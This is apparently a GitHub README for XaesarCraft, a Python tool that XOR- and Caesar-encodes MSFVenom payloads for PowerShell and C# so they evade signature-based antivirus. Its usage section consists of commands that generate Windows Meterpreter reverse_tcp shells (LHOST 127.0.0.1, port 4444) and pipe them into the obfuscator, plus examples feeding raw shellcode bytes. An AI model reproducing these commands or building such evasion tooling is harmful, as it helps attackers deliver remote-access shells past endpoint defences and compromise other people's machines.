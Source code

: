 # XaesarCraft

XaesarCraft is a powerful security tool that integrates XOR encryption and Caesar cipher capabilities, offering users a unique opportunity to manipulate and obscure payloads for PowerShell (PS1) and C# scripts generated through MSFVenom.

## Key Features:

1. **XOR Encryption**: XaesarCraft enables users to employ XOR encryption to obfuscate payloads. This is particularly useful for bypassing signature-based antivirus systems.

2. **Caesar Cipher**: Add an additional layer of encryption by applying the Caesar cipher to your payloads.

3. **Integration with MSFVenom**: Generate payloads using MSFVenom directly from within XaesarCraft, and then apply XOR and Caesar ciphers for encryption.

4. **Customization of Keys**: Specify your own keys for XOR encryption and select a shift for the Caesar cipher, creating unique and complex combinations.

## Example of usage:

```
More usefull ;)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py --mode rot # default ROT13
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f ps1 | python3 XaesarCraft.py --m rot -n 0x13
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f ps1 | python3 XaesarCraft.py # default XOR 0xfa
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py -n 0x13
Why not:
python3 XaesarCraft.py --input "[Byte[]] $buf = 0xf8,0xa5,0x6c,0x11,0xfc,0x05"
python3 XaesarCraft.py --input "[Byte[]] $buf = 0xf8,0xa5,0x6c,0x11,0xfc,0x05" -m rot
```

TBD:

 **Export**: Export encrypted payloads in various formats, including Base64, HEX, and bin.


## Target Audience

Designed for security researchers, penetration testers, and cybersecurity specialists, XaesarCraft offers comprehensive solutions for effectively creating and obscuring payloads, ensuring high levels of anonymity and protection.
